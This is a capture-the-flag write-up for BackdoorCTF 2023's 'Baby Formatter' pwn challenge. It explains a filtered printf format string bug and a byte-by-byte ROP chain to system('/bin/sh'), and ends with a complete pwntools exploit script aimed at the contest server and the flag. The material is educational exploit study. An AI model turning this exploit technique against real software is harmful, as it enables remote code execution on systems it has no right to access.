

# BackdoorCTF 2023 - Baby Formatter Writeup
# Challenge Description
```
Just another format string challenge. Aren't they too easy these days :)

https://staticbckdr.infoseciitr.in/babyformatter.zip

nc 34.70.212.151 8003
Author: p0ch1ta
Points: 459
Category: pwn
```

Challenge files: [ld-linux-x86-64.so.2](https://backdoor.infoseciitr.in/uploads?key=d69fdac23bfc3ffb244b7637d043cdf5b6b45eff8026d49df7b82c28de87cf62%2Fld-linux-x86-64.so.2) [challenge](https://backdoor.infoseciitr.in/uploads?key=4f72b06d510d5cc7efc581753505b0278cdbc551df6c2c6aba9bcf81e4259e1c%2Fchallenge)
# TL;DR
Although the name might suggest otherwise, this challenge really gave me a hard time. The vulnerability was simple, a classic format string attack `printf(my_input)`. Common format specifiers, `p` `u` `d` `x`, were blocked, leaving us to use `s` and `n` to perform exploration and exploitation. But the real difficulty lay in the fact that we couldn't [overwrite GOT](https://ret2rop.blogspot.com/2018/10/format-strings-got-overwrite-remote.html) (Global Offset Table) because it was read-only with `Full RELRO`. As this is the usual route for format string exploitation, I spent quite some figuring out how to get a shell without overwriting GOT. Finally I ended up constructing a ROP chain on the stack to call `system("/bin/sh")` using the format string vulnerability. It was easy as the program already prints two information needed to perform the attack, the address of a stack variable and the address of libc function `fgets`. Also we were provided with the libc being used on remote.

Using the format string vulnerability, I overwrote the return address of `main` to the address of a `pop rdi; ret` gadget in libc (the challenge binary didn't have any such gadget). I also wrote `"/bin/sh\x00"` on stack and put its address right on top of gadget address. Next, I put the address of a `ret` instruction from libc on the stack for stack alignment when `system()` will be called. Finally, I put the address of `system()` right on top of the address of `ret`. The constructed rop chain looked like the following:
```
STACK LOW   +-------------------------+     
  ⭣         + Addr of `pop rdi; ret`
            + ------------------------+         ---------------
  ⭣         + Addr of '/bin/sh\x00'       ===> | '/bin/sh\x00' |
            + ------------------------+         ---------------
  ⭣         + Addr of `ret`
            + ------------------------+
  ⭣         + Addr of `system()`
STACK HIGH  + ------------------------+   
```
So, in total I had to perform 5 writes using `%n` format specifier to get shell execution. For specifics on how I found these addresses and overwrote them, see the [Detailed Solution](#detailed-solution) section.

Final Exploit Script: [solve.py](#solvepy)
# Detailed Solution
## Initial Analysis
We're dealing with a 64-bit, unstripped binary as seen from the output of `file` command:


All the protections are turned on for the binary. `checksec` utility of pwntools or `gef` can tell us about that info.



By default the challenge binary will use my local system's libc as can be seen from the output of `ldd` command:


The first order of business would be to patch the binary so that it uses the provided libc by the challenge author as we need the correct offsets and addresses during our exploitation process. Using [pwninit](https://github.com/io12/pwninit) it can be done very easily. Just the binary and the provided libc have to be on the same directory, the rest will be handled by  `pwninit`.


As seen from the image, the challenge binary is now using the provided libc. We can now proceed to figure out what the binary is doing and how we can exploit it.
## Understanding the binary
### Run binary
After running the binary, it gives us 3 options. If we select the first one, `1. Accept you are noob`, we get two values which look like runtime memory addresses. We'll validate our assumption later when we look at the binary inside Ghidra.


If we select the second option, `2. Try the challenge`, we are asked to give some input which is then echoed back to us.


As our input is echoed back as is, its a hint that there might be format string vulnerability present in the binary. I will not dive into the details of how format string vulns work. So if you need refresher or have no idea how format string attack works, consider watching these excellent videos by Liveoverflow from its [Binary Exploitation](https://www.youtube.com/playlist?list=PLhixgUqwRTjxglIswKp9mpkfPNfHkzyeN) playlist [Vidoes 0x11-0x13]. Also this [tutorial](https://tc.gts3.org/cs6265/tut/tut05-fmtstr.html) on format string vuln is really helpful.
Lets try with some `%p` to validate our suspicion.


Weird. When we try with a format specifier, it prints `Cant leak anything`. Seems like some sort of filtering is going on here which prints a default message if we provide format specifiers as input. Now's the time to fire up Ghidra and look inside the binary to understand exactly whats happening.
### Looking at Ghidra
The main function is following


So, there's an infinite loop going on. At the start of each iteration, `menu()` is called which prints the 3 options that we saw earlier.


`hint()` is called when we select option 1 and `vuln()` is called if option 2 is selected. From the name, we can assume that `vuln()` is where the vulnerability lies. Lets first look at what `hint()` is doing.


Ah! We are getting two very important hints from here. One is the address of a local variable from stack and another is the address of libc function `fgets`. With these two addresses, we can effectively bypass ASLR and also get address of any function from libc (as we have the corresponding `libc.so` file). Now lets look at `vuln()`.


A input of length `0x1d` is taken, passed to `filter()` function and then to `printf()`. So the `printf(input)` is the source of vulnerability as its taking out input directly. Lets see what `filter()` does.


So `filter()` is basically checking whether the input contains `p`, `u`, `d` or `x`, which are the usual format specifiers to check and validate format string vulnerabilities. If any of them are present, the program terminates. That means our input can't have these characters. Fortunately for us, another two major format specifiers `s` and `n` are not filtered. And those two are enough to validate and perform arbitrary write using the format string vuln.
## Goal (and a failed attempt...)
Our goal for this challenge is to get shell execution so that we can read the flag. Usually with format string vuln, we do this by overwriting the GOT entry of some libc function to another function that can execute shell. But that route of exploitation is not possible in this challenge as the GOT table is `read-only` for this binary.
My initial thought was to use [one_gadget](https://github.com/david942j/one_gadget) `execeve` as I wouldn't have to set function parameters for that case. Because if I use `system("/bin/sh")` then I have to find a gadget to put the address of `"/bin/sh"` in `RDI` after writing the string on stack and build a whole rop chain on the stack which would make the exploit more complex. I wanted to take the easy route but in the end I ended up creating the rop chaing and calling `system()` anyway. 
The reason I couldn't use one_gadget was that it needs some constraints to be satisfied for one_gadget to work. The following output from one_gadget tool shows the available options from given `libc.so`:


The constraints need to be satisfied before jumping to these one_gadget instructions for getting successful shell execution. I checked all the possible return points by setting breakpoint in gdb. None of them satisfied these constraints at the time of return. It cost me quite a lot of time while I was checking these because I was too reluctant to take the other route of using `system()` :)
## Solution
Now, I'll explain the whole process of how I built the rop chain and executed `system("/bin/sh")` using the format string vulnerability.
### Find the offset
The first thing we need to figure out when exploiting a format string vuln is where in the stack is our input is. To be more exact, which numbered value on stack is our input. Usually we do this by putting some random characters first in our input and then using several `%p` or `%x`'s after that. Next, in the output, we check which `%p` or `%x`'s have returned our initial random characters. But we can't do this in this challenge as both `p` and `x` are being filtered. And we can't also use `%s` as it tries to dereference the values on stack as memory addresses which would trigger segmentation fault in many cases. So what I did was use `gdb` to skip the filter function altogether after I gave `%p`'s as input so that I can see what's getting reflected from `printf`. After doing some trial and error, I found that the **`6th`** value off the stack is our input which can be seen from the following screenshot.


### pwntools `fmtstr_payload`
As discussed before, we can write arbitrary values in memory by exploiting a format string vuln. It is done using the `%n` format specifier which writes the *count of the number of characters printed so far* by `printf` to the corresponding memory address specified with `%n`. By using length modifiers such as `hh` or `h` with `%n` we can write individual `byte`'s or `short`'s in a memory address. But manually calculating each byte to be written in each memory address is a tedious task and prone to error. Thanks to [pwntools](https://github.com/Gallopsled/pwntools), this process is now easier than ever with their [`fmtstr_payload`](https://docs.pwntools.com/en/stable/fmtstr.html) function. The function signature of `fmtstr_payload` looks like following:
```python
fmtstr_payload(offset, {where: what}, write_size=size)
```
`offset` is where in the stack our input lies which in our case would be `6`. `where` is the memory address we want to overwrite and `what` is the value to be written in `where`. `write_size` defines the size of the write which can be either `byte`, `short` or `int`. The default is `byte`. For complete description of the function and its parameters, see the [doc](https://docs.pwntools.com/en/stable/fmtstr.html#pwnlib.fmtstr.fmtstr_payload). I have heavily used this function to build the exploit for this challenge.
### Create the ROP chain
My plan is to overwrite a return address on stack with the address of a `pop rdi; ret` instruction which would pop an address off the stack to `RDI`. That popped address would be the address of string `"/bin/sh\x00"` which I would have to first put somewhere on the stack. After the pop is done, the execution would go to a `ret` instruction which would correctly align the stack for the next `system()` function call. In summary, I would need the following steps to be done for the exploit to work correctly:
1. Find addresses of `pop rdi; ret`, `ret`, `system()` from libc and suitable stack address to write `"/bin/sh\x00"`
2. Find a suitable return address on stack to overwrite it to address of `pop rdi; ret`
3. Overwrite stack with the addresses of string `"/bin/sh\x00"`, `ret` and `system()` on successive addresses from the above return address
See [TL;DR](#tldr) to visualize how the stack will look like after these steps are done.
#### Find addresses
Recall that the `hint()` function gives us two addresses, one from stack (`stack_address`) and another from libc (`fgets`). First we need to find a suitable address on stack which doesn't get overwritten between function calls and put the string `"/bin/sh\x00"` there. I selected `stack_address + 176` as the memory location to write binsh.
Finding address of `system()` is pretty straightforward as we have the runtime address of a libc function (`fgets` from `hint()`) and also the libc itself. We get the base address of libc by subtracting the leaked libc address from the offset of `fgets`. Then add the offset of `system` with libc base.
```python
libc.addr = fgets - libc.symbols["fgets"]
SYSTEM = libc.addr + libc.symbols["system"]
```
Next we need to find out the address of `pop rdi; ret` and `ret` instruction. Unfortunately, the challenge binary didn't have any `pop rdi` gadget so I had to search for it in the given libc. Using [ROPgadget](https://github.com/JonathanSalwan/ROPgadget) I found the offset of a `pop rdi` and `ret` gadget. Adding them with the base address of libc would give us the runtime addresses of these instructions.


The final piece of the puzzle was to figure out which return address I would overwrite. I spent a lot of time trying to figure out this. In each iteration of the `while` loop in main, the `vuln()` function was called once. Each call to `vuln()` allowed me to input a string of length `0x1d` that means I couldn't use large values to overwrite multiple byte positions at once. This input length limitation gave me hard time as I had to overwrite only 1 byte at a time in each call to `vuln()`. That means I need to be able to come to vuln() a lot of times to overwrite all those values and as such overwriting return address of vuln() was not an option. So I decided to **overwrite the return address of `main()`** to `pop rdi; ret` instruction so that when I use the `3. Exit` option, the constructed ROP chain would be triggered.
#### Overwrite the stack
After getting all the required addresses, the last step was to overwrite the stack with those addresses starting from the return address of `main()`. I overwrote one byte at each call to `printf()` (inside vuln()) using the `fmtstr_payload()` function mentioned in the [[CTF Write-Ups/2023/backdoorCTF 2023/(pwn) baby_formatter/writeup#pwntools `fmtstr_payload`|previous section]]. One thing that I want to mention here is that the stack had to be overwritten sequentially. That means, first overwrite the return address of `main()`, next write the address of string `/bin/sh\x00`, then the address of `ret` and finally the address of `system()`. Because somehow each write was affecting the immediate next write's position. For example, if I wrote first the address of `/bin/sh\x00` and then I changed `main()`'s return address, it would change the previously written address of `/bin/sh\x00` rendering my ROP chain useless. Thats why I had to write these addresses sequentially in the order they should be in ROP chain. Writing of string `"/bin/sh\x00"` can be done anywhere in the sequence as this memory is not adjacent to our ROP chain.
Final stack layout after overwriting at the return point of main:


After all steps are done, all we had to do was select the `3. Exit` option and voila! we got the shell and read the [Flag](#flag).

## solve.py
```python
#!/usr/bin/env python3.8

from pwn import *
import warnings
import re

# Allows you to switch between local/GDB/remote from terminal
def connect():
    if args.GDB:
        r = gdb.debug(elf.path, gdbscript=gdbscript)
    elif args.REMOTE:
        r = remote("34.70.212.151", 8003)
    else:
        r = process([elf.path])
    return r

# Specify GDB script here (breakpoints etc)
gdbscript = """
    set follow-fork-mode child
    start
    b *vuln+137
    b *main+159
"""

# Binary filename
exe = "./challenge_patched"
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Change logging level to help with debugging (error/warning/info/debug)
context.log_level = "info"
warnings.filterwarnings(
    "ignore",
    category=BytesWarning,
    message="Text is not bytes; assuming ASCII, no guarantees.",
)

# =======================
# EXPLOIT AFTER THIS
# =======================
r = connect()
libc = ELF("./libc.so.6", checksec=False)

r.sendlineafter(b">> ", "1")
resp = r.recvline().strip()
print(resp)

stack_addr = int(resp.split(b" ")[0], 16)
fgets = int(resp.split(b" ")[1], 16)
# print(f"stack address: {hex(stack_addr)}, fgets: {hex(fgets)}")

offset = 6
POP_RDI_OFFSET = 0x2A3E5  # offset of "pop rdi ; ret" in libc
RET_OFFSET = 0x29139  # offset of "ret" in libc

BINSH = stack_addr + 176  # write "/bin/sh" here
MAIN_RET = (
    stack_addr + 56
)  # overwrite this address to address of "pop rdi; ret" instruction
BINSH_Location = MAIN_RET + 8  # overwrite this address to address of "/bin/sh"
RET_Location = MAIN_RET + 16  # overwrite this address to address of "ret" instruction
SYSTEM_Location = MAIN_RET + 24  # overwrite this address to address of "system()" call

libc.addr = fgets - libc.symbols["fgets"]
POP_RDI = libc.addr + POP_RDI_OFFSET
RET = libc.addr + RET_OFFSET
SYSTEM = libc.addr + libc.symbols["system"]

# print(f"/bin/sh: {hex(BINSH)}, Main return: {hex(MAIN_RET)}, Pointer to /bin/sh: {hex(BINSH_Location)}")
# print(f"Libc base: {hex(libc.addr)}, RET: {hex(RET)}, POP_RDI: {hex(POP_RDI)}, SYSTEM: {hex(SYSTEM)}")

# payload = fmtstr_payload(offset, {location : value})
def make_and_send_payload(offset, where, what, size):
    payload = fmtstr_payload(offset, {where: what}, write_size=size)
    r.sendlineafter(b">> ", "2")
    # print(f"Wrote: {what}")
    r.sendlineafter(b">> ", payload)

# write /bin/sh to stack location BINSH
print(f"WRITING /bin/sh to {hex(BINSH)}")
make_and_send_payload(offset, BINSH, b"/", "byte")
make_and_send_payload(offset, BINSH + 1, b"b", "byte")
make_and_send_payload(offset, BINSH + 2, b"i", "byte")
make_and_send_payload(offset, BINSH + 3, b"n", "byte")
make_and_send_payload(offset, BINSH + 4, b"/", "byte")
make_and_send_payload(offset, BINSH + 5, b"s", "byte")
make_and_send_payload(offset, BINSH + 6, b"h", "byte")
make_and_send_payload(offset, BINSH + 7, b"\x00", "byte")

# write address of POP_RDI_RET in libc to MAIN_RET on stack
print(f"WRITING address of POP_RDI_RET ({hex(POP_RDI)}) on stack at {hex(MAIN_RET)}")
make_and_send_payload(offset, MAIN_RET, bytes.fromhex(hex(POP_RDI)[2:])[-1], "byte")
make_and_send_payload(offset, MAIN_RET + 1, bytes.fromhex(hex(POP_RDI)[2:])[-2], "byte")
make_and_send_payload(offset, MAIN_RET + 2, bytes.fromhex(hex(POP_RDI)[2:])[-3], "byte")
make_and_send_payload(offset, MAIN_RET + 3, bytes.fromhex(hex(POP_RDI)[2:])[-4], "byte")
make_and_send_payload(offset, MAIN_RET + 4, bytes.fromhex(hex(POP_RDI)[2:])[-5], "byte")
make_and_send_payload(offset, MAIN_RET + 5, bytes.fromhex(hex(POP_RDI)[2:])[-6], "byte")

# write address of /bin/sh (BINSH) to BINSH_Location on stack
print(f"WRITING address of /bin/sh to {hex(BINSH_Location)}")
make_and_send_payload(offset, BINSH_Location, bytes.fromhex(hex(BINSH)[2:])[-1], "byte")
make_and_send_payload(
    offset, BINSH_Location + 1, bytes.fromhex(hex(BINSH)[2:])[-2], "byte"
)
make_and_send_payload(
    offset, BINSH_Location + 2, bytes.fromhex(hex(BINSH)[2:])[-3], "byte"
)
make_and_send_payload(
    offset, BINSH_Location + 3, bytes.fromhex(hex(BINSH)[2:])[-4], "byte"
)
make_and_send_payload(
    offset, BINSH_Location + 4, bytes.fromhex(hex(BINSH)[2:])[-5], "byte"
)
make_and_send_payload(
    offset, BINSH_Location + 5, bytes.fromhex(hex(BINSH)[2:])[-6], "byte"
)

# write address of RET in libc to RET_Location on stack
print(f"WRITING address of RET ({hex(RET)}) on stack at {hex(RET_Location)}")
make_and_send_payload(offset, RET_Location, bytes.fromhex(hex(RET)[2:])[-1], "byte")
make_and_send_payload(offset, RET_Location + 1, bytes.fromhex(hex(RET)[2:])[-2], "byte")
make_and_send_payload(offset, RET_Location + 2, bytes.fromhex(hex(RET)[2:])[-3], "byte")
make_and_send_payload(offset, RET_Location + 3, bytes.fromhex(hex(RET)[2:])[-4], "byte")
make_and_send_payload(offset, RET_Location + 4, bytes.fromhex(hex(RET)[2:])[-5], "byte")
make_and_send_payload(offset, RET_Location + 5, bytes.fromhex(hex(RET)[2:])[-6], "byte")

# write address of SYSTEM in libc to SYSTEM_Location on stack
print(f"WRITING address of system() ({hex(SYSTEM)}) on stack at {hex(SYSTEM_Location)}")
make_and_send_payload(
    offset, SYSTEM_Location, bytes.fromhex(hex(SYSTEM)[2:])[-1], "byte"
)
make_and_send_payload(
    offset, SYSTEM_Location + 1, bytes.fromhex(hex(SYSTEM)[2:])[-2], "byte"
)
make_and_send_payload(
    offset, SYSTEM_Location + 2, bytes.fromhex(hex(SYSTEM)[2:])[-3], "byte"
)
make_and_send_payload(
    offset, SYSTEM_Location + 3, bytes.fromhex(hex(SYSTEM)[2:])[-4], "byte"
)
make_and_send_payload(
    offset, SYSTEM_Location + 4, bytes.fromhex(hex(SYSTEM)[2:])[-5], "byte"
)
make_and_send_payload(
    offset, SYSTEM_Location + 5, bytes.fromhex(hex(SYSTEM)[2:])[-6], "byte"
)

r.sendlineafter(b">> ", "3")

r.interactive()
```
## Flag
`flag{F0rm47_5tr1ng5_4r3_7o0_3asy}`
